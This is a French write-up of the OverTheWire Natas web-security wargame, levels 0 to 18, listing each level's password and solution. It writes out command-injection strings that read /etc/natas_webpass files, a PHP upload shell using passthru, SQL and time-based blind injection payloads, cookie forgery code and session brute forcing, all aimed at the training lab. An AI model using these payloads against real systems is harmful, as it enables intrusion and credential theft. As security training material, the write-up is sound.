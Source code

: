 # Natas

http://overthewire.org/wargames/natas/

# 0 et 1
<p>
<details>
<summary> Caché</summary>


> natas0:natas0

> natas1:gtVrDuiDfck831PqWsLEZy5gyDz1clto

Réponse dans les commentaires

</details></p>


# 2
<p>
<details>
<summary> Caché</summary>


> natas2:ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi

Réponse dans /files/users.txt (découvert grace au chemin du pixel)

</details></p>


# 3
<p>
<details>
<summary> Caché</summary>


>natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14

Réponse dans /s3cr3t/users.txt (découvert grace au robots.txt)

</details></p>


# 4 
<p>
<details>
<summary> Caché</summary>


>natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

*Forger la requête*

Ajouter une entete `Referer: http://natas5.natas.labs.overthewire.org/`

</details></p>


# 5
<p>
<details>
<summary> Caché</summary>


>natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

*Forger la requête*

Dans le cookie, changer `loggedin=1`

</details></p>


# 6
<p>
<details>
<summary> Caché</summary>


>natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1

Découvrir le secret dans les sources de /includes/secret.inc

</details></p>


# 7

<p>
<details>
<summary> Caché</summary>


>natas7:7z3hEENjQtflzgnT29q7wAvMNfZdh0i9

Le paramètre de requête "page" permet d'ouvrir n'importe quel fichier du serveur. Demander `page=/etc/natas_webpass/natas8`

</details></p>


# 8

<p>
<details>
<summary> Caché</summary>


>natas8:DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

Le secret initial se retrouve simplement à partir du secret encodé :
```php
base64_decode(strrev(hex2bin($encodedSecret)));
```

</details></p>


# 9

<p>
<details>
<summary> Caché</summary>


>natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

*Injection de code OS*

Le champ est directement injecté dans la ligne `grep -i $key dictionary.txt`

On peut donc renseigner par exemple `; less /etc/natas_webpass/natas10 ;`

</details></p>


# 10

<p>
<details>
<summary> Caché</summary>


>natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

*Injection de code OS*

Un peu plus fin que le précédent il faut vraiment utiliser la commande grep qui peut prendre plusieurs fichiers en paramètre. Il faut ensuite tester différents caractères jusqu'à en trouver un qui est contenu dans le mot de passe.

On peut donc renseigner par exemple : `c /etc/natas_webpass/natas11 `

</details></p>


# 11

<p>
<details>
<summary> Caché</summary>

>natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

*Forger la requête*

Le cookie par défaut contient l'information suivante :
```json
{"showpassword":"no","bgcolor":"#ffffff"}
``` 

Le stockage est réalisé après un "chiffrement" XOR et un encodage base64.
```
data=ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw=
```

La clé du XOR est cachée dans le code. Cependant en utilisant la relation :
```
A XOR B = C <=> A XOR C = B
```
on peut facilement retrouver la clé initiale en calculant :
```php
$key = '{"showpassword":"no","bgcolor":"#ffffff"}';
$text = base64_decode('ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw=');
$outText = '';
for($i=0;$i<strlen($text);$i++) {
 $outText .= $text[$i] ^ $key[$i % strlen($key)];
}
```
```
> outText = qw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jq
```
On en déduit que la clé du XOR est : `qw8J`

On peut ainsi reprendre le code initial en remettant la clé et à chiffrer :
```json
{"showpassword":"yes","bgcolor":"#ffffff"}
``` 
```php
function xor_encrypt($in) {
 $key = 'qw8J';
 $text = $in;
 $outText = '';
 for($i=0;$i<strlen($text);$i++) {
  $outText .= $text[$i] ^ $key[$i % strlen($key)];
 }
 return $outText;
}
base64_encode(xor_encrypt('{"showpassword":"yes","bgcolor":"#ffffff"}'))
```

Ce qui donne :
```
ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK
```

</details></p>


# 12

<p>
<details>
<summary> Caché</summary>

>natas12:EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3

*Forger la requête*

*Injection de code OS*

Injecter le fichier php en annexe en renseignant comme 'filename' `quelquechose.php` : seule l'extention de ce paramètre est lue et permet de déterminer l'extension du code final.

Le script va ainsi déposer le fichier sur le serveur sous un nom aléatoire mais avec l'extension .php : upload/hmf6ksgvr4.php par exemple. 

L'extension .php va provoquer le déclenchement du moteur php et exécuter le code situé dans le fichier : `passthru("less /etc/natas_webpass/natas13");`

</details>

# 13

<p>
<details>
<summary> Caché</summary>
 
>natas13:jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

*Forger la requête*

*Injection de code OS*

Même exercice que le précédent mais cette fois un vérification complémentaire est effectuée pour vérifier que le fichier est vraiment une image (fonction exif_imagetype).

La vérification porte sur la lecture des premiers octets. Une façon simple de résoudre le problème est donc d'ajouter le code php précédent au corps d'une image. Le fichier en annexe a été construit ainsi et provoque le même résultat que précédemment.

</details>

# 14

<p>
<details>
<summary> Caché</summary>
 
>natas14:Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1

*Injection de code SQL*

Requete lancée :
```php
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
```
Si on renseigne username : `natas15"  #` la requete devient :
```sql
SELECT * from users where username="natas15" # " and password=""
```

</details>

# 15

<p>
<details>
<summary> Caché</summary>
 
>natas15:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

*Injection de code SQL*

*Brute force*

Requete lancée :
```php
 $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\""; 
```
Si on renseigne username : `natas16" AND password LIKE BINARY "a%"  #` la requete devient :
```sql
SELECT * from users where username="natas16" AND password LIKE BINARY "a%"  #"
```
et on peut ainsi vérifier si le mot de passe de natas16 commence par a. (instruction BINARY pour réaliser des coparaison case sensitive)

En itérant sur tous les caractères on finit par obtenir le mot de passe complet (Exemple de code pour résoudre en annexe).

</details>


# 16

<p>
<details>
<summary> Caché</summary>

>natas16:WaIHEacj63wnNIBROHeqi3p9t0m5nhmh

*Injection de code OS*

*Brute force*

Comme dans 9 et 10 sauf que la commande lancée est maintenant : 
```
grep -i "$key" dictionary.txt
```
(avec des guillemets autour de l'entrée utilisateur) et les caractères interdits sont ;|&`'"

On peut cependant injecter du code via l'écriture `$()` qui execute du code au sein d'une chaîne de caratères encapsulée dans "".

L'idée va être d'injecter des instructions de la forme `$(grep ^a /etc/natas_webpass/natas17)` pour voir si le mot de passe commence par a. Pour le valider on choisit un mot du dictionnaire assez long pour que rajouter n'importe quel caractère aboutisse à une réponse vide. Par exemple `Easters`.

La requete `needle=easters$(grep ^a /etc/natas_webpass/natas17)` provoquera la requete effective :
- si le mot de passe de natas 17 commence par un a : 
```
grep -i eastersMotDePasseNatas17 dictionary.txt
```
et ne renverra donc aucun résult
- si le mot de passe ne commence pas par un a :
```
grep -i easters dictionary.txt
```
et renverra donc Easters comme résultat.

La présence de `Easters` dans la réponse nous indique donc l'échec de notre proposition de début de mot de passe.

En itérant sur tous les caractères on finit par obtenir le mot de passe complet (Exemple de code pour résoudre en annexe).

</details>

# 17

<p>
<details>
<summary> Caché</summary>

>natas17:8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw

*Injection de code SQL*

*Brute force*

Même exercice que le 15 mais cette fois toutes les sorties sont mises en commentaire côté php et il devient impossible de distinguer dans le corps une différence entre user exists ou non.

Une différence peut être créée au niveau des temps de réponse grace à l'instruction SLEEP(n) qui provoque une pause de n secondes dans le processus côté base de données.

En rajoutant l'instruction `AND SLEEP(2)` : si la ligne matche, une requete valide répondra en 2 secondes au lieu de quelques millisecondes.

On va donc renseigner username : `natas18" AND password LIKE BINARY "a%" AND SLEEP(2) #` et la requete devient :
```sql
SELECT * from users where username="natas18" AND password LIKE BINARY "a%" AND SLEEP(2) #"
```

En itérant sur tous les caractères on finit par obtenir le mot de passe complet (Exemple de code pour résoudre en annexe).

</details>

# 18

<p>
<details>
<summary> Caché</summary>

>natas18:xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP

*Forger la requête*

*Vol de session*

D'après le code les identifiants de session ne vont que de 0 à 640. Il suffit alors de tester tous les identifiants de sessions possibles en espérant tomber sur un compte admin.

Le code en annexe propose jusqu'à trouver un identifiant que affiche le mot de passe l'entête :
```
Cookie: PHPSESSID=identifiantSession
```
dans la requête.

</details>

